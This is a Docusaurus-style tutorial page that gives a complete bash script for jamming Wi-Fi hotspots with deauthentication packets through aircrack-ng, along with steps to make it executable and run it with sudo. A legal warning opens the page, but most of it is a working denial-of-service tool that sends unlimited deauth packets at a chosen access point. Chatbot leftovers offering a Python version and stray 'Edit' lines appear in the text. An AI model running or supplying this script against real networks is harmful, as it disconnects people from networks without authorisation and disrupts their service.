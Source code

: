 import Warning from '@site/src/components/Warning'
import Tip from '@site/src/components/Tip'

# ⚠️ Ethical Wi-Fi Hotspot Jamming (Educational Use Only)

<Warning title="Important Legal Notice">
Jamming or disrupting Wi-Fi networks without explicit permission is **illegal** and considered a **Denial of Service (DoS)** attack under cybersecurity laws. Only use the following on **your own test networks** or with clear **written authorization**.
</Warning>

## ✅ What We’ll Do

We’ll create a script that sends deauthentication packets to disconnect devices from a nearby Wi-Fi hotspot.

## 🛠️ Prerequisites

- Linux system (e.g., **Kali Linux**)
- Wireless card that supports **monitor mode** and **packet injection**
- `aircrack-ng` suite installed

## 📜 Bash Script: Wi-Fi Deauth Jammer

```bash
#!/bin/bash

# Check for required tools
if ! command -v airmon-ng &> /dev/null || ! command -v aireplay-ng &> /dev/null; then
    echo "[!] Please install aircrack-ng first."
    exit 1
fi

echo "[*] Starting Wi-Fi hotspot jammer (deauth packets)..."

# Put interface into monitor mode
echo "[*] Enabling monitor mode..."
read -p "Enter your Wi-Fi interface name (e.g., wlan0): " iface
airmon-ng start $iface
mon_iface="${iface}mon"

# Scan for nearby networks
echo "[*] Scanning for nearby Wi-Fi networks. Press Ctrl+C when done."
airodump-ng $mon_iface

# Ask for target details
read -p "Enter target BSSID (MAC of Wi-Fi hotspot): " bssid
read -p "Enter target channel (CH): " channel

# Set monitor interface to the correct channel
echo "[*] Setting channel to $channel"
iwconfig $mon_iface channel $channel

# Start jamming
echo "[*] Starting deauthentication attack on $bssid..."
sleep 2
aireplay-ng --deauth 0 -a $bssid $mon_iface
```
## ⚙️ How to Run
Save the script as wifi_jammer.sh

Make it executable:

```bash
Edit
chmod +x wifi_jammer.sh
```
Run with sudo:

```bash
Edit
sudo ./wifi_jammer.sh
```
## 🧠 How It Works
Enables monitor mode with airmon-ng

Scans networks using airodump-ng

Sends continuous deauth packets to target BSSID using aireplay-ng

<Tip title="Bonus: Python Version"> Want a Python + Scapy version of this Wi-Fi jammer script? Let me know and I’ll generate it for you. </Tip> ```
Let me know if you want this adapted for a specific platform like Docusaurus, Next.js, or something else—or if you want that Python version.
